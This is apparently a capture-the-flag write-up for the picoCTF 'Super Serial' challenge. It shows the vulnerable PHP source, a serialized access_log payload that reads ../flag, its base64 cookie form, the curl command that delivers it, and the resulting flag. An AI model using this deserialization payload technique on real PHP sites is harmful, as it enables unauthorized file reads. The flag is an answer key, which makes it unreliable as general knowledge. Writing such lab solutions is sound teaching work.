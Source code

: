 
# PICOCTF - Super Serial


### Description:
> Try to recover the flag stored on this website http://mercury.picoctf.net:3449/
### Solution:
1. The above website redirect us to a page which allows us to login using a username and password. After some reconnaissance we can see that `robots.txt` has some interesting information.
```
User-agent: *
Disallow: /admin.phps
```

2. It shows that `admin.phps` is disallowed. `phps` extension is different from `php` extension as the latter shows the execution of the php code while the former only shows the HTML representation of the php code.

More information can be accessed at `index.phps`:

```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
3. Nothing is really interesting here except `cookie.php`:

```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```
and `authentication.phps`
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

4. The exploit is in this code block

```php 
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

This is a [deserialization vulnerabilities](https://portswigger.net/web-security/deserialization). We can see that any object stored in `login` cookie will be unserialized and pass onto `try` block where it will be tested `is_admin` or `is_guest`.

From the hint, we know that our flag is in `../flag` ,but we need to print it out. The above block of code shows that if our object is neither guest nor admin, it will print out `$perm`, which is our solution.

Therefore, we only need to serialize our `access_log` object, which looks like this `O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`. For more information on how this syntax actually work, visit [this medium article](https://l.facebook.com/l.php?u=https%3A%2F%2Fmedium.com%2Fswlh%2Fexploiting-php-deserialization-56d71f03282a%3Ffbclid%3DIwAR2lIRaZ1oX4ipHxNHFC29arCtw4qFwuAH881BC8RGgkrw6p60m85i_sj24&h=AT1sdTPhl8StwAA7-iIgJD8YQgqTXq6pwevovfc7AvamFxFPbaU5ELg5feywhelmdDl3WIlAURhFugdQnfTZFTOUUWlNEklC-0W-OR3sJD9MPr1NU4jVUbKkLtFgN2dmzXejbA).

We need to insert this syntax onto the cookie of `authentication.php`, but our cookie must be base64, therefore, we need to encode it as: 
`TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9`.

We can use cURL to access our flag direcly via: `curl mercury.picoctf.net:3449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"`

This will print the error and the flag:
```
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```





## Flag
```
picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_b4e3f8b1}
```
